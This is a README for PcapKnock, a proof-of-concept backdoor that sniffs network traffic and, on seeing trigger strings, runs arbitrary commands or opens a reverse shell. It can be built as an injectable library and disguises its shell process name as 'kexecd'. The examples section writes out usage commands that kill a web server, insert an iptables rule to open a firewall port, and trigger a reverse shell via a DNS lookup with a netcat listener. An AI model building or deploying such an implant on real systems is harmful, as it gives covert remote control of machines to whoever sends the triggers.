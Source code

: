 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

For legal use only.

Usage
-----
In most cases, the [`build.sh`](./build.sh) script is sufficient to build:
```bash
$ ./build.sh
C Flags:      "-O2 -Wall --pedantic"
Defines:      ""
Linker Flags: "-lpcap -lpthread"
Building library...pcapknock.so
Building static binary...pcapknock.static
Building dynamic binary...pcapknock.dynamic
```
This will generate three files:
- `pcapknock.so`, an injectable library which spawns a thread on load
- `pcapknock.static`, a statically-linked standalone binary
- `pcapknock.dynamic`, a dynamically-linked standalone binary

Once running, by default PcapKnock will listen on all interfaces (on Linux),
for packets containing one of two triggers, either `COMMAND<command>COMMAND` to
run a command or `CALLBACK<address>:<port>CALLBACK` to spawn a reverse shell to
the given address and port.  See the [Configuration](#Configuration) section
for more information on changing defaults.

Examples
--------
The following examples assume PcapKnock is configured with its default
settings.

Kill apache on 192.168.0.2:
```bash
# Port doesn't matter as long as a PSH is made
echo COMMANDpkill apache2COMMAND | nc -u 192.168.0.2 22
```
Punch a hole in the firewall using a legit web request:
```bash
curl --data 'COMMANDiptables -I INPUT -p tcp --dport 22 -j ACCEPTCOMMAND' https://192.168.0.2
```
Spawn a reverse shell to `192.168.0.3:4444` using a DNS request which will be
recursed to example.com:
```bash
dig CALLBACK192.168.0.3:4444CALLBACK.example.com & nc -nvl 4444
```

Configuration
-------------
Configuration takes place in the form of C defines.  Defaults are set in
[`pcapknock.h`](./pcapknock.h), but can be changed at compile time by passing
`-DOPTION=value` to the compiler.  The included build script passes whatever
is in the `DEFINES` environment variable to the compiler to enable compile-time
configuration.  For convience, the `DEVICE` environment variable may be set to
change the device on which traffic is monitored.  If DEVICE is unset, all
interfaces will be used.

The configurable settings are:

Setting       | Default    | Description
--------------|------------|---------------------------------
`DEVICE`      | `""`       | Device on which to sniff packets
`SHELLNAME`   | `kexecd`   | Shell process name (i.e. `argv[0]`)
`CBMARKER`    | `CALLBACK` | Marker for reverse shell addresses
`CMDMARKER`   | `COMMAND`  | Marker for commands
| | |It is unlikely the below will need to be changed |
`MAXKNOCK`    | `4096`     | Maximum command/address length
`CLMAXFD`     | `10240`    | Maximum filedescriptor number to close after fork
`CONSTRUCTOR` | _unset_    | If defined, runs as a constructor (for injection)
`ERROUT`      | _unset_    | If defined, outputs error messages to stdout

Only the first four will likely need to be changed in most cases.

